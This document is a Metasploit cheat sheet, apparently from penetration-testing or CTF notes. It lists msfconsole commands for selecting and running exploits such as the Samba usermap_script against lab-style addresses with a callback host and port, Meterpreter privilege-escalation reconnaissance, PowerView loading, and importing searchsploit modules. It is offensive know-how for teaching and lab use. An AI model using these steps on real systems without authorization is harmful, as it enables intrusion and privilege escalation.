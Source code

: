 ```yaml
---
title: "Metasploit"
date: 2024-6-28
tags: ["metasploit", "exploit", "vuln", "CVE", "privesc", "meterpreter", "Windows", "msfconsole", "searchsploit"]
---
```


---
### Metasploit

#### Start Metasploit

```bash
msfconsole -q
```

#### Basic Commands

```bash
# Return to previous page
back
```

```bash
# Upgrade session
sessions -u
```

```bash
# quit metasploit
exit
```

#### Search Exploit

```bash
# For example: samba
search samba
```

```bash
# Choose by #num
use 15
```

```bash
# Choose by full path
use exploit/multi/samba/usermap_script
```

```bash
# Show exploit settings
options
```

```bash
# Set option, e.g.
set rhosts 10.10.11.10
```

```bash
set lhost 10.10.14.10
```

```bash
set lport 1337
```

```bash
# Run exploit
run 
```

<small>*Hint: If you see a session is opened, but sit at an empty line, just type your cmd and press enter*</small>

---
### Meterpreter

#### Basic Commands

```bash
# Return from meterpreter
background
```

#### Use Exploit

```bash
# Quick look of potential privesc (Windows)
# Need to return from meterpreter
use post/multi/recon/local_exploit_suggester
```

```bash
# Select opened session
set session 1
```

```bash
# Show exploit settings
options
```

```bash
# Set option, e.g.
set rhosts 10.10.11.10
```

```bash
# Run exploit
run 
```

#### Use powershell

```bash
# Use powershell module
use powershell
```

```bash
# Import module
powershell_import /usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```

```bash
# Spawn powershell session
powershell_shell 
```

<br>

---

### Custom Scripts

#### Add scripts from searchsploit

```bash
mkdir -p ~/.msf4/modules/exploits/linux
```

```bash
mkdir -p ~/.msf4/modules/exploits/windows
```

```bash
# For example a linux script
cp 12345.rb ~/.msf4/modules/exploits/linux
```

```bash
# Inside msfconsole
reload_all
```

```bash
# Search
search 12345
```

#### Fix no search result

```bash
# Inside msfconsole, check db status
db_status
```

```bash
sudo service postgresql start
```

```bash
update-rc.d postgresql enable
```

```bash
sudo msfdb init
```

```bash
# Go bask to msfconsole and check again
db_status
```

<br>